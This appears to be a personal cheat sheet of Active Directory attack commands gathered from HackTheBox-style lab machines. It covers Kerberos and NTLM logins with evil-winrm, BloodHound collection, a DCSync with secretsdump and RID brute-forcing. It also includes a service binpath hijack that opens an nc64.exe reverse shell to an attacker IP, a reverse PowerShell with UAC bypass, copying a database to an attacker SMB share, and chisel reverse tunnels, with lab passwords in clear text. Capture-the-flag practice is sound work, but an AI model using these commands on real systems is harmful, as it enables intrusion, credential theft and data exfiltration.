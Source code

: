 ___



*connecting with evil-winrm with KRB ticket*

*this worked for win-rm* -> this has to b the most ugly command I have ever written

KRB5CCNAME=./svc_winrm.ccache sudo docker run --rm -it -v "/home/ew/box/Voleur/svc_winrm.ccache:/tmp/krb5cc_0" -v "/home/ew/box/Voleur/krb5.conf:/etc/krb5.conf" -v "/etc/hosts:/etc/hosts:ro" evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB 


 *NTLM authentication*
sudo docker run --rm -it evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!' 


are you using kerberos or NTLM authention? pay attention the commands may change


*generating TGT for user*
nxc smb frizzdc.frizz.htb -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' --generate-tgt f.frizzle



*grabbing bloodhound info*
bloodhound-python -u 'svc-printer' -p '1edFg43012!!' -ns 10.10.11.108 -dc printer.return.local -d return.local -c All  



*start neo4j*
sudo neo4j console



**getST.py**
**ntlmrelayx.py**
**secretsdump.py**


*DCsync attack*
secretsdump.py 'puppy.htb'/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.180 



*rpcclient guest with no password*
rpcclient 10.10.11.108 -U 'guest%' 

rpcclient $> lookupnames administrator


`lookupsids`

lookupsid.py svc-printer@10.10.11.108

```
netexec smb 10.10.11.222 -u guest -p '' --rid-brute
```


*uses SAM remote interface to enumerate users, works over smb/RPC*
`samrdump.py`

samrdump.py return.local/svc-printer:'1edFg43012!!'@10.10.11.108 



*powershell/cmd enumeration*
whoami /priv
whoami /groups

sc.exe query -> list running services

*list services*
```
 $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```



*copy docker files in and out of container*
sudo docker cp 245f71c07597:/data/site-backup-2024-12-30.zip /home/ew/box/puppy/loot/site-backup-2024-12-30.zip



*adding a service*
```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
```

*running service on attacker machine*
```
sc.exe start VSS
```



*all open ports*
netstat -a 



*start smb server for file transfer from windows*
```
smbserver.py share . -username 0xdf -password 0xdf -smb2support
```

 *use share*
```
net use \\10.10.14.6\share /u:0xdf 0xdf
```



*copy to share*
```
copy data\gitea.db //10.10.14.6/share/
```
``

*RunAs.exe command*
```
.\r.exe openfire 'HotP!fireguard' powershell -r 10.10.14.6:444 --logon-type 5 --bypass-uac
```


*Chisel Command (rev proxy for tunneling)*
on attacker machine
```
./chisel_1.10.1_linux_amd64 server --reverse --port 7878
```
on target
```
chisel.exe client 10.10.14.24:7878 R:9090:127.0.0.1:9090 
```



